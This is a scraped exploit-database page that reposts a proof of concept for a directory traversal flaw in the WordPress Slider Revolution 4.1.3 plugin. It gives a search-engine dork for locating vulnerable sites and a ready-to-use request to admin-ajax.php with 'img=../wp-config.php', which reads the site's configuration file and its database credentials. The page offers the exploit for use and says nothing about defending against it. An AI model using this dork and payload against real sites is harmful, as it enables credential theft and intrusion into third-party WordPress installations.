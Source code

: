 ```yaml
---
title: WordPress Slider Revolution 4.1.3 Directory Traversal exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170504&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-14
fetch_date: 2025-10-04T03:49:49.356363
---
```


# WordPress Slider Revolution 4.1.3 Directory Traversal exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress Slider Revolution 4.1.3 Directory Traversal

2023-01-13 | CVSS -0.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170504
====================================================================================================================================
| # Title : WordPress - Slider Revolution 4.1.3 Directory Traversal Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 66.0(64-bit) |
| # Vendor : https://www.sliderrevolution.com/ |
| # Dork : index off revslider\backup |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] Use payload : /wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php

[+] http://127.0.0.1/sse.sg/wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php

Greetings to :=========================================================================================================================
|
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm * thelastvvv *Zigoo.eg |
|
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)